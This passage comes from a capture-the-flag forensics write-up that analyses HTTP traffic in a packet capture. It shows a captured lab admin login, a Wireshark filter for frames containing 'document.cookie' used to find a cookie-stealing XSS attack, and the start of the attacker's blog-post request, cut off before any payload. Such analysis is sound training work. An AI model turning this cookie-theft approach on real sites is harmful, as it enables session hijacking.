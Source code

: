 ```
Cookie: XSRF-TOKEN=eyJpdiI6ImMrWGpNOTY5UkxKYlJtdEpwK1hoVHc9PSIsInZhbHVlIjoiMVAyOHNqdVZHemxEWDdDMXAyT3lnWkVMeHVYZVJ1YXp1Qk90bnVJWW1lalVNVXBtR3dPQW84ZkJLeHUyalFOcUlRazUxTGQrVFBISTdwUTU1ejFsYU1aVW9LQzRFS1NZRTF5MWYyRHpQOTNXaHNEWng1NzBmamprVElCNEtXcVIiLCJtYWMiOiI4ZTdiMTVlYWE3MzM4YTViMjRiOGIzN2ZlMGU2MGUzYjgxMDFhNmYzNGMyZjk2ZjZlMDEwNmZjNmMzNTViYjFlIiwidGFnIjoiIn0%3D; knightblog_session=eyJpdiI6ImJvNElOQVBTWkh2bStWdkNvb0FSaUE9PSIsInZhbHVlIjoicTNNbCtWa3F2NU5mNTJUTkdDUHduNVFuMWNEbmJyUWR4aGtCR292ZXhwUU56V1hzZXJmYmRkcXhKQkd5aWU0VE0zODFyQ2RiRHNFWkdwS00vb2t0bzlmbE9IazlvSkRoME1BKy9TSDVaM1Q4QU52UHF6b056ZVYwQTZaLzFINnMiLCJtYWMiOiJmNGYwNjVjZDJlZDFjMGM4OWZiN2U2ZWRmOGUxM2ZhODU4ZmYzMDVmMWUxNDFlNDMwZmU2MjlhNDI0ZGZjNDU5IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_token=aW2w8Ol9Yxf6CyS1BFZltbezpwXBlSUydsNWXBjT&email=admin%40example.com&password=admin
```

Flag: `KCTF{admin@example.com_password}`

### Stealing the Sweet (capture1.pcapng)

> The attacker utilized a port to steal admin cookies somehow. Can you determine the port & method used for this malicious act?

> Flag Format: KCTF{port_method}

We need to figure out how the attacker got the admin access, what attack they used and what port was used for the attack,

From the name of the challenge and the fact they used a port I am thinking theft of cookies via XSS.

I filter for attacker IP traffic, if a frame contains `document.cookie` which stores the cookies in JS and if it's HTTP traffic: `frame contains "document.cookie" && http && ip.addr == 192.168.1.9`

The first request is a POST to `/blog/create`

```
POST /blog/create HTTP/1.1
Host: 192.168.1.10
Connection: keep-alive
Content-Length: 674
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygktK0rAB0kja0dvn
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.10/blog/create
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,la;q=0.8
Cookie: XSRF-TOKEN=eyJpdiI6Imo4ekVFdHdhdzFXZG9tdmlJN09ETFE9PSIsInZhbHVlIjoiazZWMWxBSDljZW51RTNSdm4xQXhNRXhubzBjR3FCQXU2U0lhWkdtZkhyWUVMTVJUS0pTNHlJaXRzY0dRTmlxRlN0YkE4SlQ0NkdWV0V2SXJISmRvVFFmc0FIbFJrVXBSdGdJQjFFbitYVXdVVFFRa3Rkamppd1RNUjdEd3d4Q1UiLCJtYWMiOiIwN2VlNzcyNjMwYjYwN2I5MDAyNzM3NGIxN2ZmYWU1OTNiNWNmYzNmMzE5YjY2MjMzNDZlZjllNWU5OGM1NWU0IiwidGFnIjoiIn0%3D; knightblog_session=eyJpdiI6ImVKbGQ5NEtDMmg2eVBOTExmcDVjRGc9PSIsInZhbHVlIjoiOXZKSjBGdTdRRDNoK29wRExJOFE2YkI0TEs2MDROZS9IbWVpTldZdU0rR2MyREZvMU5ObW81V09pZk1RNDZQRlF5NUREZC82NWhGWnpDa21wUUhtNWdJRk5CUms5SG83MmUwT3RBYzBEbm5aY3U0dDJPYnZYWWZwQjNLL0Z5WHkiLCJtYWMiOiIyZjhmNThlNjM2NDEwOTNkZjFjNWUwZGFlMTA1ZWY4YjljNWM2NWRhM2E0YjkyYzI1YTNiODlmNTNiYmQ3MTZmIiwidGFnIjoiIn0%3D

------WebKitFormBoundarygktK0rAB0kja0dvn
Content-Disposition: form-data; name="_token"

pLDuHThQ1RGo8gXsm7ZHtxYLr66KDMWMXJEt8GEa
------WebKitFormBoundarygktK0rAB0kja0dvn
Content-Disposition: form-data; name="title"

```